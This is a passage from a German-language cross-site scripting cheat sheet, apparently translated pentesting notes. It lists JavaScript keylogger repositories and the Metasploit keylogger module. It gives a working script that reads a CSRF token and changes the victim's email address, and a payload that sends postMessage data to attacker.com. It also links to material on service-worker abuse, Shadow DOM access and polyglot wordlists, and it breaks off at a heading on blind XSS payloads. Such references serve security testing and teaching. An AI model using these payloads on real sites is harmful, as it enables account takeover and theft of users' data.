 ### Keylogger

Nur durch eine Suche auf GitHub habe ich einige verschiedene gefunden:

* [https://github.com/JohnHoder/Javascript-Keylogger](https://github.com/JohnHoder/Javascript-Keylogger)
* [https://github.com/rajeshmajumdar/keylogger](https://github.com/rajeshmajumdar/keylogger)
* [https://github.com/hakanonymos/JavascriptKeylogger](https://github.com/hakanonymos/JavascriptKeylogger)
* Sie können auch metasploit `http_javascript_keylogger` verwenden

### Stehlen von CSRF-Token
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/email',true);
req.send();
function handleResponse() {
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
var changeReq = new XMLHttpRequest();
changeReq.open('post', '/email/change-email', true);
changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
### Stehlen von PostMessage-Nachrichten
```markup
<img src="https://attacker.com/?" id=message>
<script>
window.onmessage = function(e){
document.getElementById("message").src += "&"+e.data;
</script>
```
### Missbrauch von Service Workern

{% content-ref url="abusing-service-workers.md" %}
[abusing-service-workers.md](abusing-service-workers.md)
{% endcontent-ref %}

### Zugriff auf Shadow DOM

{% content-ref url="shadow-dom.md" %}
[shadow-dom.md](shadow-dom.md)
{% endcontent-ref %}

### Polyglots

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss_polyglots.txt" %}

### Blinde XSS-Payloads
